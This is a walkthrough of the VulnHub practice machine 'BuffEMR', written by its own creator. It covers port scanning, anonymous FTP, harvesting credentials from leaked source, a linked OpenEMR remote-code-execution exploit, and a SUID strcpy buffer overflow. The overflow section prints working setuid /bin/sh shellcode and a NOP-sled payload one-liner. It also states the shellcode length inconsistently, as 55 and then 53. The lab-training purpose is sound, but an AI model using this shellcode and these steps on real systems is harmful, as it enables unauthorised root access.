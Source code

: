 ```yaml
---
layout: post
title: BuffEMR Walkthrough
---
```


![](/images/2021-12-01-BuffEmr/0.png)


This is a walk through of "BuffEMR" machine created by myself and is available here for hacking: [BuffEmr](https://www.vulnhub.com/entry/buffemr-101,717/). 

This machines have been purposefully created for practicing penetration testing skills. I have been getting a lot of twitter DMs for hint and helps to PAWN this machine, so I decided to release the walkthrough !


Firstly, we will start with Nmap:
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-25 09:44 EDT
Nmap scan report for 10.0.0.63
Host is up (0.0085s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    3 0        0            4096 Jun 21 14:21 share
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.0.0.154
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 92:4c:ae:7b:01:fe:84:f9:5e:f7:f0:da:91:e4:7a:cf (RSA)
|   256 95:97:eb:ea:5c:f8:26:94:3c:a7:b6:b4:76:c3:27:9c (ECDSA)
|_  256 cb:1c:d9:56:4f:7a:c0:01:25:cd:98:f6:4e:23:2e:77 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.49 seconds

```

As we can see, there are three ports open (http, ftp, ssh).

We will check the webapp first:
![](/images/2021-12-01-BuffEmr/1.png)

It is running openEMR, If you try try some default credentials, it won’t work!

For now, we will login into FTP as we can use anonymous login:

![](/images/2021-12-01-BuffEmr/2.png)

The FTP share contains source code for openemr, let’s try and find out any interesting information’s here by searching for sensitive information (eg: grep -ri password .
  or grep -ri key .)


The first thing I found was a pdfkey for something :

![](/images/2021-12-01-BuffEmr/3.png)

The second interesting thing I found was a file under /tests that contains admin creds : 

![](/images/2021-12-01-BuffEmr/4.png)

Now let’s try and use this on openemr:

![](/images/2021-12-01-BuffEmr/5.png)

Now we have access and we know the version.

After looking for exploits, I found multiple vulnerabilities for this version of OpenEMR including remote code execution.

Reference: [Exploit](https://www.exploit-db.com/exploits/45161)


Run the python file with a netcat listening on port 1337:

![](/images/2021-12-01-BuffEmr/6.png)

Now we have access to the box:


![](/images/2021-12-01-BuffEmr/7.png)


![](/images/2021-12-01-BuffEmr/8.png)

We don’t have access to user folder, but we do have access to /var where I found a password protected zip file:

![](/images/2021-12-01-BuffEmr/9.png)

Now I am going to transfer the file to my local machine and use the pdfkey found earlier to see what is in it:

![](/images/2021-12-01-BuffEmr/10.png)


![](/images/2021-12-01-BuffEmr/11.png)

The zip file contains the password which can be used to ssh as buffemr:

![](/images/2021-12-01-BuffEmr/12.png)


The first thing I do to escalate privilege is to see the current user AKA.BuffEMR have the rights to run anything as sudo, which in this case we does not have:


![](/images/2021-12-01-BuffEmr/13.png)

Now after some enumeration, I found an executable owned by root (suid bit set) in the /opt directory :


![](/images/2021-12-01-BuffEmr/14.png)

I ran strings command on the binary and found out that there is a function the binary use called “strcpy”.  The strcpy() function does not specify the size of the destination array, so buffer overrun is often a risk.


![](/images/2021-12-01-BuffEmr/15.png)

Maybe, we will try to over flow the buffer to run a shell code to get root !

We will use gdb for this:


![](/images/2021-12-01-BuffEmr/16.png)


The hex of A is \x41, at 520 it overrides EIP and at 510 it doesn’t override EIP, so we need to find the magic number that overrides EIP without going over, between 520 and 510:

After few tries, I found out that 516 is the magic number:

![](/images/2021-12-01-BuffEmr/17.png)

Now, we need a shell code:

[shell-code-priv-esc]( https://github.com/san3ncrypt3d/shell-code-priv-esc)

This is the shell code I am going to use:
```
\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh

```

Let’s find out the length of the shell code:



![](/images/2021-12-01-BuffEmr/18.png)

Our shell code is 55, we needed 516 A’s to override EIP, and 4 bytes is return address, so the buffer size will be 516-4 = 512

So, the plan is to use NOPs or no operations followed by shell code, to get a shell.

How many NOPs ?

512 – 53 = 459.

Note: NOP is \x90 in hex

So, we are going to run this:

```
python -c “print ‘\x90’ * 459 + ‘\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh’ + ‘\x41\x41\x41\x41’”
```



We don’t know the return address yet, so I am going to use 41 (A’s):


![](/images/2021-12-01-BuffEmr/19.png)

Now use the command to examine the memory:
```
x/300wx $esp
```

![](/images/2021-12-01-BuffEmr/20.png)

As we can see, the 0x90 is our NOP, so we can use any of the return address of the NOP to get our shell executed after:



Let’s run this:

```
run $(python -c "print '\x90'*459 + '\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh' + '\xc0\xd6\xff\xff'")
```

After execution, we get a shell but inside gdb it still says we don’t have the elevated privilege, so exit out of gdb and run the same command :

#![](/images/2021-12-01-BuffEmr/21.png)



Now we can access the root flag as we escalated our privilege :


#![](/images/2021-12-01-BuffEmr/22.png)



